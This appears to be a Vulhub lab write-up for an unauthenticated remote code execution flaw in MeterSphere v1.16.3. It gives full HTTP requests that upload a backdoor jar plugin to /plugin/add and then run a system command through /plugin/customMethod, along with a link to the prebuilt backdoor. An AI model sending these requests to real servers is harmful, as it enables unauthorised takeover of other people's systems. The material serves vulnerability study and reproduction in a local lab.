



MeterSphere Plugin Endpoint Remote Code Execution¶
MeterSphere is a one-stop open source continuous testing platform under the GPL v3 open source license.
In the version v1.16.3 and before, MeterSphere's plugin API is unauthenticated and the attackers are able to upload plugins to the server and execute arbitrary code.
References:
Vulnerable environment¶
Execute following command to start a MeterSphere server v1.16.3:
docker compose up -d
After the server is fully initialized, you can see the login page of MeterSphere on http://your-ip:8081.
Exploit¶
Firstly, by visiting http://your-ip:8081/plugin/list, you can see that the success message is returned without being redirected to the login page, indicating that the plugin API can be accessed without authorization.

Then, you should create a crafted evil plugin. Vulhub prepares a pre-built backdoor jar for it: https://github.com/vulhub/metersphere-plugin-Backdoor/releases/tag/v1.1.0.
Upload the evil jar plugin to /plugin/add interface:
POST /plugin/add HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Length: 11985
------WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Disposition: form-data; name="file"; filename="Evil.jar"
[Paste your jar file]
------WebKitFormBoundaryJV2KX1EL5qmKWXsd--

Take care of bytes encoding by yourself if you use Burpsuite to send the package.
Althrough there is an error message is respond, the JAR package path is already added into URL classloader which means we can exploit it.
Use following request to execute arbitrary command:
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 89
{
"entry": "org.vulhub.Evil",
"request": "id"
}
